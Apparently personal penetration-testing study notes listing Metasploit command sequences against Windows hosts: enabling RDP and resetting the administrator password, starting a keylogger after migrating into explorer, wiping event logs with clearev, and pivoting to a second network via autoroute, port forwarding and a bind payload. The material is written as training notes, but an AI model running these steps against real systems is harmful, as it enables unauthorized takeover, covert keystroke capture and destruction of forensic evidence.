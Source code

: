 ### Enabling RDP 3389
- service postgresql start && msfconsole
- setg rhost <target-ip>
- nmap identify exploit
- getuid sysinfo
- search enable_rdp
- nmap -sV -p3389 <target-ip>
- shell
- net users
- net user administrator <new-password>
- xfreerdp  /u:administrator /p:<password> /v:<target-ip>
-
### Windows KeyLogging
- service postgresql start && msfconsole
- search badblue nmap identify exploit
- sysinfo getuid
- pgrep explorer
- migrate <ps-id>
- help
- keyscan_start
-
### Clearing Evenet Logs On Windows System
- application logs, system logs, Security logs
- service postgresql start && msfconsole
- workspace -a clearev
- nmap identify exploit
- sysinfo getuid
- open EventViewer Application
- shell
- net user administrator <new-password> Password Change
- in meterpreter- clearev
-

### Pivoting
- service postgresql start && msfconsole
- workspace -a pivoting
- nmap identify exploit
- in meterpreter
- sysinfo getuid
- run autoroute -s <target-ip2>/20
- sessions -n victim-1 -i 1
- search portscan
- set rhosts <target-ip2>
- set ports 1-100
- sessions 1
- portfwd add -l 1234 -p 80 -r <target-ip2> This is added to our own localhost
- so we need to scan our own machine with forwarded port
- db_nmap -sS -sV -p1234 localhost- search badblue_passthru
- use set run
- Reverse tcp Doesnt work at Pivoting- set exploit/windows/meterpreter/bind_tcp
- set rhosts <target-ip2>
- sessions
- enum_system
- loot
- notes X
